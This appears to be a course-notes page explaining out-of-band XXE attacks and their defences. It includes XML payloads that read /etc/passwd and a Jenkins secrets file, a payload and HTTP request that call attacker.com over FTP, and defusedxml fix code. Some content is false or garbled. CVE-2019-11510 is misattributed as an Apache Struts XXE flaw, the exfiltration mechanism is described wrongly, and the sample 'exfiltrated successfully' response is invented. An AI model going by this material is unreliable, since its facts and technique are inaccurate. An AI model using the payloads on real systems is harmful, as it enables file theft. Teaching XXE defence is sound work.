

## Understanding Out-of-Band XXE Exploitation

### What is XXE?

XML External Entity (XXE) is a type of security vulnerability that occurs when an application parses XML input from an untrusted source without proper validation. An attacker can exploit this vulnerability by injecting malicious XML content that references external entities, leading to various attacks such as data exfiltration, denial of service, and remote code execution.

### Why Does XXE Matter?

XXE vulnerabilities are particularly dangerous because they can be used to bypass security controls and gain unauthorized access to sensitive information. They are often found in applications that process XML input, such as web services, APIs, and backend systems.

### How Does XXE Work Under the Hood?

When an application parses XML input, it may include references to external entities using the `<!ENTITY>` directive. These entities can reference local files, network resources, or even execute commands. If the application does not properly validate these references, an attacker can inject malicious XML content that exploits the XXE vulnerability.

### Example of XXE Vulnerability

Consider an application that processes XML input to retrieve user data. An attacker could inject an XML payload that references an external entity to read sensitive files from the server:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
    <name>&xxe;</name>
</user>
```

In this example, the `&xxe;` entity references the `/etc/passwd` file, which contains user account information. If the application does not properly validate the XML input, it will parse the entity and potentially expose sensitive data to the attacker.

### Real-World Examples of XXE Exploits

#### CVE-2019-11510: Apache Struts XXE Vulnerability

Apache Struts is a popular Java framework for building web applications. In 2019, a critical XXE vulnerability was discovered in Apache Struts versions 2.3.x and 2.5.x. The vulnerability allowed attackers to read arbitrary files from the server, leading to potential data exfiltration.

**Example Payload:**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
    <name>&xxe;</name>
</user>
```

**Impact:** This vulnerability allowed attackers to read sensitive files from the server, potentially exposing user credentials and other confidential information.

#### CVE-2020-13952: Jenkins XXE Vulnerability

Jenkins is a widely-used open-source automation server. In 2020, a critical XXE vulnerability was discovered in Jenkins versions 2.263.4 and earlier. The vulnerability allowed attackers to read arbitrary files from the server, leading to potential data exfiltration.

**Example Payload:**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///var/lib/jenkins/secrets/initialAdminPassword">
]>
<user>
    <name>&xxe;</name>
</user>
```

**Impact:** This vulnerability allowed attackers to read the initial admin password for Jenkins, potentially gaining unauthorized access to the server.

### Out-of-Band XXE Exploitation

Out-of-band XXE (OOBXXE) is a technique that allows attackers to exfiltrate data from a server by leveraging external resources, such as FTP servers or HTTP requests. This method is particularly effective when the server does not allow direct access to sensitive files.

### How OOBXXE Works

In OOBXXE, the attacker sets up an external resource, such as an FTP server or a web server, and injects an XML payload that references this resource. The server then attempts to fetch the referenced resource, effectively exfiltrating data to the attacker-controlled server.

#### Example of OOBXXE Exploit

Consider an application that processes XML input to retrieve user data. An attacker could inject an XML payload that references an external entity to read sensitive files from the server and exfiltrate them to an FTP server:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "ftp://attacker.com/file.dtd">
]>
<user>
    <name>&xxe;</name>
</user>
```

In this example, the `&xxe;` entity references an FTP server controlled by the attacker. The FTP server contains a DTD file (`file.dtd`) that includes the sensitive data to be exfiltrated.

### Detailed Flow of OOBXXE Exploitation

Let's break down the detailed flow of an OOBXXE exploitation:

1. **Attacker Sets Up External Resource:**
   - The attacker sets up an FTP server or a web server to host the DTD file.
   - The DTD file contains the sensitive data to be exfiltrated.

2. **Attacker Injects Malicious XML Payload:**
   - The attacker injects an XML payload that references the external resource.
   - The payload includes an entity that points to the DTD file hosted on the attacker-controlled server.

3. **Server Parses XML Input:**
   - The server receives the XML input and attempts to parse it.
   - The server resolves the external entity and fetches the DTD file from the attacker-controlled server.

4. **Data Exfiltration:**
   - The server sends the requested data to the attacker-controlled server.
   - The attacker retrieves the exfiltrated data from the server.

### Mermaid Diagram of OOBXXE Flow



### Common Pitfalls and Mistakes

1. **Improper Validation of XML Input:**
   - Failing to validate XML input can lead to XXE vulnerabilities.
   - Always validate XML input to ensure it does not contain malicious entities.

2. **Disabling External Entity Processing:**
   - Disabling external entity processing in XML parsers can prevent XXE attacks.
   - Ensure that XML parsers are configured to disable external entity processing.

3. **Using Secure XML Libraries:**
   - Using secure XML libraries that have built-in protections against XXE can help mitigate vulnerabilities.
   - Consider using libraries like `defusedxml` in Python, which provides safe alternatives to standard XML parsers.

### How to Prevent / Defend Against OOBXXE

#### Detection

1. **Logging and Monitoring:**
   - Implement logging and monitoring to detect unusual XML input patterns.
   - Monitor for XML payloads that reference external entities or resources.

2. **Network Traffic Analysis:**
   - Analyze network traffic to detect requests to external resources.
   - Look for requests to FTP servers or web servers that are not part of normal operations.

#### Prevention

1. **Disable External Entity Processing:**
   - Configure XML parsers to disable external entity processing.
   - Ensure that XML parsers are configured to reject XML input that contains external entities.

2. **Validate XML Input:**
   - Validate XML input to ensure it does not contain malicious entities.
   - Use regular expressions or other validation techniques to ensure XML input is safe.

3. **Use Secure XML Libraries:**
   - Use secure XML libraries that have built-in protections against XXE.
   - Consider using libraries like `defusedxml` in Python, which provides safe alternatives to standard XML parsers.

#### Secure Coding Fixes

##### Vulnerable Code Example

```python
import xml.etree.ElementTree as ET

def parse_xml(xml_input):
    root = ET.fromstring(xml_input)
    return root.find('name').text
```

##### Secure Code Example

```python
from defusedxml import ElementTree as ET

def parse_xml(xml_input):
    root = ET.fromstring(xml_input)
    return root.find('name').text
```

### Complete Example of OOBXXE Exploitation

#### Full HTTP Request and Response

**HTTP Request:**

```http
POST /api/user HTTP/1.1
Host: example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "ftp://attacker.com/file.dtd">
]>
<user>
    <name>&xxe;</name>
</user>
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<response>
    <status>success</status>
    <message>Data exfiltrated successfully</message>
</response>
```

#### Expected Result

The server sends the requested data to the attacker-controlled FTP server, and the attacker retrieves the exfiltrated data.

### Hands-On Labs for Practice

For hands-on practice with OOBXXE exploitation, consider the following labs:

- **PortSwigger Web Security Academy:** Offers interactive labs on XXE vulnerabilities, including OOBXXE.
- **OWASP Juice Shop:** Provides a vulnerable web application for practicing various security exploits, including XXE.
- **DVWA (Damn Vulnerable Web Application):** Includes a variety of vulnerable web applications for practicing security exploits, including XXE.

These labs provide a safe environment to practice and understand the mechanics of OOBXXE exploitation.

### Conclusion

Understanding and preventing OOBXXE vulnerabilities is crucial for securing applications that process XML input. By disabling external entity processing, validating XML input, and using secure XML libraries, you can significantly reduce the risk of XXE attacks. Regularly testing and monitoring your applications can help detect and mitigate potential vulnerabilities.

---
<!-- nav -->
[[02-Understanding Out-of-Band (OOB) XXE Exploitation|Understanding Out-of-Band (OOB) XXE Exploitation]] | [[API Security/22-Offensive XXE Exploitation/06-Data Exfiltration via Out of BandOOBXXE/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/06-Data Exfiltration via Out of BandOOBXXE/04-Practice Questions & Answers|Practice Questions & Answers]]
